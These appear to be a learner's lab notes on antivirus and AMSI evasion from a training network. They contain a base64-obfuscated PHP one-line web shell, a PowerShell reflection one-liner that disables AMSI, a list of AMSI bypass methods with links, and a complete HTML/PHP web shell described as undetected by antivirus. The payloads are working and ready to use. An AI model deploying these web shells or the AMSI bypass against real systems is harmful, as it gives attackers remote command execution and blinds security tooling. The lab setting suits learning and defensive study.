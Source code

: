 
Let's 1st try what we have learnt in wreath network and if it doesn't work will learn what they are teaching us.

Let's try this obfuscation
https://www.gaijin.at/en/tools/php-obfuscator
```
<?php system($_GET[base64_decode('Y21k')]);?>
```


As i was going through this Php obfuscation won't work so will have to learn something on the lines of either updating amsi.dll or obfuscate it aka AMSIception.



<hr>



There are a large number of bypasses for AMSI available, a majority written in PowerShell and C#. Find a list of common bypasses below.  

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

- Patching amsi.dll
- Amsi ScanBuffer patch
- Forcing errors
- Matt Graeber's Reflection, [](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)[https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
- PowerShell downgrade



<hr>


Will Target `Matt Graeber` reflection method as well as patching `amsi.dll`

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

##  It is helpful to think of obfuscation as an art rather than a technique.


To Begin with Obfuscation will focus on manual obfuscation more as it's more reliable compared to automated obfuscators.

To aid in our obfuscation efforts, we will use the AMSITrigger script, [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger), written by RythmStick


Automated obfuscators like Invoke-Obfuscation and ISE-Steroids to perform advanced string and signature manipulation.  

We again recommend using a development virtual machine to test and edit code.


When creating a token command, you will need to be careful not to obfuscate the payload too much and exceed the 8191 character limit in a Windows command prompt.


## So instead of all this will try this shell

![[Pasted image 20240825202530.png]]

Normal Payload
```
php system($_GET[base64_decode('Y21k')]);?>
```
It gets deleted as soon as we try to execute it. 


Payload that is not detected by AV
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```


